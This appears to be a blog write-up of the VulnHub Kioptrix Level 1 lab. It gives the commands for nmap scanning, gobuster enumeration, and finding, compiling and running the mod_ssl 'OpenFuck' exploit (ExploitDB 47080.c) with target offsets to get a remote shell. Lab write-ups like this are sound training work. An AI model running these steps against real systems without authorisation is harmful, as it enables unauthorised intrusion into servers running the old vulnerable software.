 ```yaml
---
layout: post
title: Kioptrix Level 1
---
```

[Kioptrix Level 1](https://www.vulnhub.com/entry/kioptrix-level-1-1,22/#)

## Find IP of box
Our IP: x.x.x.49
```
nmap -T5 <LHOST>/24
```
Kioptrix is running on: x.x.x.104  

## Init NMap Scan
```
nmap -sC -sV -oA nmap x.x.x.104
```
 - Default Scripts
 - Service Detection
 - Output all formats

![Initial NMap Scan](/images/KioptrixL1/Nmap1.JPG)

We have 6 ports open: 22 (SSH), 80 (HTTP), 111 (rpcbind), 139 (netbios-ssn samba), 443 (ssl/https), 1024 (status)

I'm going to start by looking at the HTTP port

## HTTP - Port 80
### Gobuster
```
gobuster dir -u http://x.x.x.104 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -o gobuster.txt -x php,html,txt,xml
```
![Gobuster Results](/images/KioptrixL1/Gobuster1.JPG)

### Dirbuster
Ran gui Dirbuster in background for recursive search

Gave plenty more results but not much important info to be found

### Searchsploit
```
searchsploit mod_ssl
```
< 2.8.7 stands out as our version is 2.8.4

There are 3 results so a quick google of the name (OpenFuck) reveals the version we need is 47080.c (ExploitDB)

Reading through the exploit reveals we need to explain libssl-dev
```
apt-get install libssl-dev
```
It also explains how to compile
```
gcc -o exploit 47080.c -lcrypto
```
Now we need to find out how to use it properly, so run the script
```
./exploit
```
It presents us with:
```
: Usage: ./script target box [port] [-c N]

  target - supported box eg: 0x00
  box - hostname or IP address
  port - port for ssl connection
  -c open N connections. (use range 40-50 if u dont know)
```
and a long list of supported offsets to place instead of 'target'

Ours is likely to be either 0x6a or 0x6b so we'll try 0x6a first
```
./exploit 0x6a x.x.x.104 -c 40
```
Unsucessful
```
./exploit 0x6b x.x.x.104 -c 40
```
It Works!

Note: It seemingly freezes for a bit by not producing an output but if we type in a command such as ```id``` and we get an output which shows we have a shell.

Note 2: If the above command doesn't work (i.e reaches ```spawning shell ... Good Bye!``` ), try deleting the compiled script and recompile and it should work fine
